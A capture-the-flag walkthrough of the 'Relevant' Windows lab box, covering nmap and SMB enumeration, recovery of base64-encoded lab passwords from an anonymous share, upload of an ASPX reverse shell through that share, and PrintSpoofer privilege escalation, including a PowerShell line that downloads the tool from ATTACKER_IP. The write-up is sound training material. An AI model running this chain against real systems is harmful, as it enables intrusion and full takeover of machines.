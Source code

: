 ```yaml
---
title: "Relevant"
tags:
  - Medium
  - Windows
  - nmap
  - samba
  - Token Impersonation
  - PrintSpoofer
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--|:------------: |--|
|   Medium   |  |  10.10.72.53  |  |

---

### [ User Flag ]

We first start off with a basic `nmap` scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**

![screenshot1](../assets/images/relevant/screenshot1.png)

From the results, we can see that the following ports are open: **80 (HTTP)**, **135 (RPC)**, **139 & 445 (Samba)** and **3389 (Microsoft Terminal Services)**

Let's first take a look at the HTTP website:

![screenshot2](../assets/images/relevant/screenshot2.png)

We have a basic Windows Server page.

I did some manual enumeration of the website but was unable to find anything of interest. I also tried running a `gobuster` directory scan on the website, but unfortunately Gobuster was unable to find any hidden directories.

Hitting a dead-end, I decided to move on to enumerating the Samba server.

To do so, we can use `smbclient` to list out the shares that are accessible on the server. This can be done with the `-L` tag:

```
smbclient -L 10.10.72.53
```

![screenshot4](../assets/images/relevant/screenshot4.png)

Nice! Looks like there are a few shares that we can potentially access. Since the **nt4wrksv** share seems the most interesting, let's try logging into it!

---

*Note: Alternatively, we can use nmap scripts to enumerate the Samba server. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

As anonymous login is enabled on the share, we are able to log into the nt4wrksv share without needing a password. 

The share contained a **passwords.txt** file:

![screenshot5](../assets/images/relevant/screenshot5.png)

This file contained user passwords that were base64-encoded. I went ahead and decoded them:

![screenshot6](../assets/images/relevant/screenshot6.png)

We get 2 sets of user credentials:

> Bob : !P@$$W0rD!123

> Bill : Juw4nnaM4n420696969!$$$

I tried to access the other Samba shares with these creds, but unfortunately they did not work.

I was stuck here for abit as I wasn't sure what these credentials could be used for. I decided to run a full `nmap` scan to see if I missed any open ports on the target machine.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*(The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild!)*

**Results:**

![screenshot7](../assets/images/relevant/screenshot7.png)

Oops, looks like I did miss some. Apart from the ports that we scanned earlier, there are now 3 new ports that were detected: **49663 (HTTP)**, **49667 (RPC)**, **49669 (RPC)**

What caught my attention was the HTTP server running on port 49663. Let's take a look:

![screenshot8](../assets/images/relevant/screenshot8.png)

This brings us to the same Windows Server page as before.

However, running a `gobuster` directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The /nt4wrksv entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory!*

*This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---

![screenshot9](../assets/images/relevant/screenshot9.png)

As this directory has the same name as the Samba share that we accessed earlier, I assumed that it was actually bringing us to the share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:

![screenshot10](../assets/images/relevant/screenshot10.png)

Sure enough, the contents of the 'passwords.txt' file in the SMB share was displayed! 

This is great as that means we can potentially obtain remote code execution by uploading a file into the share and accessing it via this web directory. With this, we can open up a reverse shell and gain a foothold into the target machine.

Using [Wappalyzer](https://www.wappalyzer.com/) on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**:

![screenshot11](../assets/images/relevant/screenshot11.png)

As such, we will have to upload an ASPX reverse shell. We'll use this [script](https://github.com/borjmz/aspx-reverse-shell).

Using `smbclient`, I uploaded the reverse shell onto the **nt4wrksv** share. This can be done with the `put` command:

![screenshot12](../assets/images/relevant/screenshot12.png)

Next, I opened up a netcat listener and opened the reverse shell by visiting **/nt4wrksv/shell.aspx** on the web server:

![screenshot13](../assets/images/relevant/screenshot13.png)

With that, the reverse shell was successfully opened and we're in!

There is a user called Bob on the machine. We can obtain the user flag from his desktop:

![screenshot14](../assets/images/relevant/screenshot14.png)

---

### [ Root Flag ]

Next, let's find a way to escalate our privileges. 

We first check out the privileges that are enabled on our current account. We do this with the `whoami /priv` command:

![screenshot15](../assets/images/relevant/screenshot15.png)

Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege, we can use the [PrintSpoofer]((https://github.com/dievus/printspoofer)) tool to escalate our privileges.

---

*More information on how PrintSpoofer works can be found [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)*

---

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine:

```
powershell "Invoke-WebRequest -UseBasicParsing ATTACKER_IP/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges:

![screenshot16](../assets/images/relevant/screenshot16.png)

And we have successfully escalated our privileges! With that, we can obtain the root flag located on the Administrator's desktop:

![screenshot17](../assets/images/relevant/screenshot17.png)

